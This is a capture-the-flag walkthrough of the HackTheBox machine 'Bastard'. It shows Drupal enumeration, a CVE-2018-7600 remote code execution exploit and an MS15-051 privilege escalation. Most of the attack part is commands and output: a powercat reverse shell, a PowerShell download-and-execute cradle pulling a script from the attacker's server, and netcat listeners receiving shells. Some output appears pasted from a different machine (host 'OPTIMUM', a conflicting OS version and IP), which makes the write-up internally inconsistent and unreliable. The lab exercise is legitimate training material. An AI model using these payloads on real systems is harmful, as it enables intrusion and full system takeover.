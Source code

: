 # HackTheBox Bastard

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.9 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 80,135,49154

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.9 -p80,135,49154
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 00:41 +07
Nmap scan report for 10.10.10.9
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

### Drupal Application

![](images/2.png)

I enum web with `curl -I` command and `gobuster` to list hidden in the sevrer.

```
### Web Enumeration (80) ############################

[+] Header
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Length: 0
Content-Type: text/html; charset=utf-8
Content-Language: en
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Generator: Drupal 7 (http://drupal.org)
X-Powered-By: ASP.NET
Date: Sun, 04 Apr 2021 15:31:45 GMT
```

I enum at CHANGELOG.txt and get the Drupal version 7.54

```
┌──(Hades㉿10.10.14.5)-[0.3:39.4]~/payload/php
└─$ curl http://10.10.10.9/CHANGELOG.txt

Drupal 7.54, 2017-02-01
-----------------------
<snip>
```

I also using [droopescan](https://github.com/droope/droopescan) to scan Drupal

```
┌──(Hades㉿10.10.14.5)-[0.3:39.3]~/walkthrough/hackthebox/bastard
└─$ droopescan scan drupal -u 10.10.10.9
[+] Plugins found:                                                              
    <snip>

[+] Themes found:
    seven http://10.10.10.9/themes/seven/
    garland http://10.10.10.9/themes/garland/

[+] Possible version(s):
    7.54

[+] Possible interesting urls found:
    Default changelog file - http://10.10.10.9/CHANGELOG.txt
    Default admin - http://10.10.10.9/user/login

[+] Scan finished (0:57:41.063650 elapsed)
```

Using `searchsploit` to find open exploit

```
┌──(Hades㉿10.10.14.5)-[0.3:44.7]~/walkthrough/hackthebox/bastard
└─$ searchsploit Drupal 7.54
------------------------------------------------ ---------------------------------
 Exploit Title                                  |  Path
------------------------------------------------ ---------------------------------
<snip>
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalged | php/remote/44482.rb
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalged | php/webapps/44448.py
<snip>
------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

### CVE-2018-7600

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastard)

At exploit `php/webapps/44448.py`, I know that this is exploit for CVE-2018-7600, but Drupal 7.x have the vulberability at form `user_pass` and inject code in `name`. Find some exploit in google and I found [drupa7-CVE-2018-7600.py](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7600.py)

Let's execute `drupa7-CVE-2018-7600.py` with powershell command to download and execute ps1 shell file.

Create powershell reverse shell with powercat.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/bastard
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

```
┌──(Hades㉿10.10.14.5)-[0.3:45.3]~/walkthrough/hackthebox/bastard
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 59994
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\iusr
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/bastard
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.3:45.0]~/walkthrough/hackthebox/bastard
└─$ python3 drupa7-CVE-2018-7600.py http://10.10.10.9 -c "$cmd"

=============================================================================
|          DRUPAL 7 <= 7.57 REMOTE CODE EXECUTION (CVE-2018-7600)           |
|                              by pimps                                     |
=============================================================================

[*] Poisoning a form and including it in cache.
[*] Poisoned form ID: form-73yATyI9zdwYMcsgDi-HaDUQOoYqlhiLL-ry_fEAw1M
[*] Triggering exploit to execute: powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')
```

## Privilege Escalation

### CVE-2015-1701

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/bastard)

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

Search around the internet, I found MS15-051 vulnerbility for this system. Download and execute file `Taihou64.exe` at [poc](https://github.com/hfiref0x/CVE-2015-1701).

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/ms15-051x64.exe','C:\inetpub\drupal-7.54\ms15-051x64.exe')"
```

```
C:\inetpub\drupal-7.54>ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
ms15-051x64.exe "powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 1076 created.
==============================
```

Listener in kali machine

```
┌──(Hades㉿10.10.14.5)-[0.3:45.9]~/walkthrough/hackthebox/bastard
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.9] 53968
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>whoami
whoami
nt authority\system
```